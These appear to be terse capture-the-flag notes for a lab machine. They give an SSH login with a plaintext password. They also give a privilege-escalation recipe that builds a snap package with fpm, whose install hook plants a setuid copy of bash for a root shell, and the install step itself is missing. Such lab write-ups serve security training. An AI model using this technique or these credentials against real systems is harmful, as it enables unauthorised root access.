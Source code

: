 Get User:
ssh brucetherealadmin@10.10.10.233
password:booboo
cat user.txt

Get Root:
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\ncp /bin/bash /home/brucetherealadmin/.w/rootbash && chmod +s /home/brucetherealadmin/.w/rootbash' > meta/hooks/install
chmod +x meta/hooks/install
fpm -n waza -s dir -t snap -a all meta
cat /root/root.txt